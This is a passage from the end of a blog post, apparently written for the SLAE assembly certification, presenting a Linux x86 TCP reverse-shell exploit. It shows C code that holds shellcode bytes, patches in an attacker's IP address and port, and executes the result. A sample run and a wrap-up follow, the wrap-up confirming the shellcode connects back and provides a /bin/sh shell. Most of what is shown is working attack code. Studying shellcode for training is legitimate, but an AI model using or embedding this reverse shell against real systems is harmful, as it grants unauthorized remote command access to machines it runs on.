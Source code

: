 ```c
\xe1\xb2\x10\x66\xb8\x6a\x01\xcd\x80\x31\xc9\xb1\x03\xfe\xc9\xf7\xe2\xb0\x3f\xcd
\x80\xfe\xc1\xe2\xf4\x31\xc9\x66\x51\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89
\xe3\x51\x53\x89\xe1\xb0\x0b\xcd\x80\x31\xc0\xb0\x01\xcd\x80";

    if (argc > 2) {
        printf("Addr: %s\n", argv[1]);
        in_addr_t ip = inet_addr(argv[1]);
        unsigned short porti = htons(atoi(argv[2]));
        memcpy(&shellcode[IP_OFFSET], &ip, 4);
        memcpy(&shellcode[PORT_OFFSET], &porti, 2);
    } else {
        printf("Please enter an IP address and port number!\n");
        printf("Usage: %s <ip-address> <port>\n\n", argv[0]);
        return -1;
    }

    printf("Shellcode Length:  %d\n", strlen(shellcode));

    int (*ret)() = (int(*)())shellcode;

    ret();
}

```


**_Running our Shellcode_**

```bash
root@kali:~/courses/slae/exam# gcc shellcode.c -o shellcode

root@kali:~/courses/slae/exam# ./shellcode 192.168.1.1 4444
Shellcode Length:  94

```

## Wrap-Up

Now it's time for bed. We have shellcode that successfully connects back to us upon being executed, and presents us with a nice `/bin/sh` shell! I hope you learned something with me this assignment, and if you had any trouble following, go back and look at [assignment 1]({% post_url 2018-02-22-slae-exam-1-tcp-bind-shell %}), and/or drop me a comment. I'd love to help any way I can! Until next time, try harder!


###### SLAE Exam Statement

This blog post has been created for completing the requirements of the SecurityTube Linux Assembly Expert certification:

http://securitytube-training.com/online-courses/securitytube-linux-assembly-expert/

Student ID: SLAE-1158
